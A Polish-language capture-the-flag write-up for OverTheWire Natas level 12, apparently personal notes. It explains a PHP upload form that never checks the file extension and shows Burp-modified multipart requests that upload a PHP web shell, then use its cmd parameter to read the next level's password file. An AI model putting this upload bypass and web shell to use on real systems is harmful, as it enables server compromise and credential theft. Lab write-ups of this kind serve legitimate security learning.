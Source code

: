 Strona posiada możliwość wrzucenia pliku w formacie jpeg o maksymalnej wielkości 1kb.
![](Attachments/{5E0FBBB4-4019-4D74-BEB2-E6453EFF9A56}.png)

Kod źródłowy:
```php
<?php
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
```

Z kodu wynika, że po wrzuceniu pliku jest tworzona ścieżka do pliku z losowym ciągiem 10 znaków, a następnie jeżeli plik jest mniejszy niż 1KB to jest wrzucany na stronę i wyświetlany jest do niego link. Ważnym aspektem jest to, że nie jest sprawdzane rozszerzenie wrzucanego pliku. Dodanie pliku .txt skutkuje wrzuceniem go na stronę z tym, że link do niego będzie z końcówką .jpg.

W celu wykorzystania tej luki można stworzyć plik .php zawierający kod w celu dostania się do pliku z hasłem. Do tego zadania można wykorzystać burp suite, którym zmieni się dane w żądaniu.

``` http
-----------------------------16669131631235052687185842707

Content-Disposition: form-data; name="MAX_FILE_SIZE"



1000

-----------------------------16669131631235052687185842707

Content-Disposition: form-data; name="filename"



nx8w6bp4cm.jpg

-----------------------------16669131631235052687185842707

Content-Disposition: form-data; name="uploadedfile"; filename="Untitled.php.jpeg"

Content-Type: image/jpeg



ÿØÿà
```

Podane żądanie wysyła plik Untitled.php.jpeg na stronę a sam plik jest prostym obrazkiem. Zmieniając w nim dane takie jak filename z końcówki .jpg na .php oraz Content-Type na text/plain, można podmienić dane obrazka na kod php czy html i wysłać na serwer.

```http
-----------------------------16669131631235052687185842707

Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000

-----------------------------16669131631235052687185842707

Content-Disposition: form-data; name="filename"

nx8w6bp4cm.php

-----------------------------16669131631235052687185842707

Content-Disposition: form-data; name="uploadedfile"; filename="Untitled.php"

Content-Type:text/plain

<html>
<body>
<div class="menu">
<?php include 'menu.php';?>
</div>
<h1>Welcome to my home page!</h1>
<p>Some text.</p>
<p>Some more text.</p>
</body>
</html> 
-----------------------------16669131631235052687185842707--
```

Wysłanie takiego pliku spowoduje pojawienie się linku do niego na stronie:
![](Attachments/{2208BB4A-AF06-46AE-ABBE-633E356170ED}.png)

Wejście w niego zwróci napisany kod:

![](Attachments/{545003C3-7EB9-4922-B434-762D2029C37B}.png)

Wiedząc, że ta metoda działa można wysłać plik z kodem pozwalającym na wysyłanie poleceń do powłoki systemu poprzez argument w url.

```http
Content-Disposition: form-data; name="uploadedfile"; filename="Untitled.php"

Content-Type:text/plain

<?php system($_GET['cmd']);?>

-----------------------------16669131631235052687185842707--

```

Teraz po wejściu w link do tego pliku poprzez przekazanie parametru cmd w url strony będą wykonywane polecenia poprzez funkcję system(). Jest to prosta implementacja web shell w PHP.

![](Attachments/{B885B233-BA9F-4AD4-8D28-179F9E8B6281}.png)

Wpisanie w url:
```url
http://natas12.natas.labs.overthewire.org/upload/v7bg91y73p.php?cmd=cat%20../../../../../etc/natas_webpass/natas13
```
zwróci hasło do następnego poziomu.